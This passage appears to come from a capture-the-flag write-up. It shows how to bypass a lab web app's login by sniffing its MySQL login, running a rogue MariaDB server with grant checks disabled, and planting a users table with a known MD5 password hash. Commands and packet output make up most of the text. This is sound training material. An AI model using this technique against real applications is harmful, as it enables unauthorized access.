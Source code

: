 Listening to the traffic with wireshark revealed user and database name:

```default
11	0.121687860	10.10.10.129	10.10.13.201	MySQL	168	Login Request user=dbuser db=cryptor
```

Next, the `cryptor` database was created locally in order to be able to make the requests from the web application proceed further:

```default
MariaDB [(none)]> create database cryptor;
Query OK, 1 row affected (0.000 sec)
```

Normally, users need to authenticate correctly. As we do not know username and password provided by the application, mysql can be started without authentication in order to allow connections with any credentials:

```bash
$ systemctl stop mysql
$ mysqld_safe --skip-grant-tables
190413 12:05:12 mysqld_safe Logging to syslog.
190413 12:05:12 mysqld_safe Starting mysqld daemon with databases from /var/lib/mysql
```

When executing the request from above again, the login request succeeded and we can see the mysql query the server is executing:

```bash
Frame 14: 164 bytes on wire (1312 bits), 164 bytes captured (1312 bits) on interface 0
Raw packet data
Internet Protocol Version 4, Src: 10.10.10.129, Dst: 10.10.13.201
Transmission Control Protocol, Src Port: 33486, Dst Port: 3306, Seq: 117, Ack: 107, Len: 112
MySQL Protocol
    Packet Length: 108
    Packet Number: 0
    Request Command Query
        Command: Query (3)
        Statement: SELECT username, password FROM users WHERE username='someone' AND password='3858f62230ac3c915f300c664312c63f' 
```

This means that we need to create the table `users` with columns `username` and `password` and fill them with the data supplied by us. We can confirm that the password is the md5 hash of the password `foobar` that was submitted: 

```bash
$ echo -n foobar | md5sum
3858f62230ac3c915f300c664312c63f  -
```

The following commands were used to create the table and insert the necessary data:

```bash
MariaDB [(none)]> use cryptor;
Database changed
MariaDB [cryptor]> create table users(username varchar(256), password varchar(256));
Query OK, 0 rows affected (0.015 sec)

MariaDB [cryptor]> insert into users(username, password) values ('someone', '3858f62230ac3c915f300c664312c63f');
Query OK, 1 row affected (0.004 sec)
```
